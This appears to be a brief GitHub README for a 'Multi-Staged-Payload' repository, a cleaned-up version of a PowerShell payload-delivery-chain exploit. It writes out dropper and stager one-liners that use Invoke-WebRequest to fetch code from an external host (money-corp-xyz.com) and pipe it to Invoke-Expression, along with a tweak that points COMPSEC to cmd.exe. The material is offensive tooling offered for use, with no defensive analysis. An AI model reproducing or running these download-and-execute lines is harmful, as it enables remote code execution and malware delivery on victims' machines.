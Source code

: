 # Multi-Staged-Payload

All credits to 

A cleaner version of https://github.com/kmkz/exploit/blob/master/Full-payload-delivery-chain.ps1


Changes:

psh-cmd payload:
COMPSEC -> C:\Windows\System32\cmd.exe 

Create_Dropper.ps1:
$Payload = "$ProxyAware;iwr http://www.money-corp-xyz.com/stager -UseBasicParsing -UserAgent '$UA'|iex"

Stager:
$ProxyAware;iwr http://www.money-corp-xyz.com/psh-cmd.load -UseBasicParsing -UserAgent $UA|iex


